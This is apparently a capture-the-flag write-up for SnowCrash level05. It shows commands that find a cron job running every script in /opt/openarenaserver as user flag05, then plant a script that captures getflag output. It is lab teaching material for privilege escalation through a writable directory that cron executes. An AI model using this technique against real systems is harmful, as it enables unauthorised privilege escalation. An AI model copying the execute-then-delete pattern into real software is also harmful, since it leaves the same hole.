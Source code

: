# LEVEL05

    level05@SnowCrash:~$ find / -user flag05 2> /dev/null 
    /usr/sbin/openarenaserver
    /rofs/usr/sbin/openarenaserver
    level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
    #!/bin/sh
    
    for i in /opt/openarenaserver/* ; do
            (ulimit -t 5; bash -x "$i")
            rm -f "$i"
    done

Looks like a bash script that executes all files located in opt/openarenaserver/ and deletes them.

    level05@SnowCrash:~$ find / -name level05 2> /dev/null 
    /var/mail/level05
    /rofs/var/mail/level05


    level05@SnowCrash:~$ cat /var/mail/level05
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
A cron tab job that switches to user flag05 every 2 minutes.

> Execute the getflag in the opt/openarenaserver/ and save its output.

    nano /opt/openarenaserver/test.sh
    /bin/getflag > /tmp/result

Wait 2 min.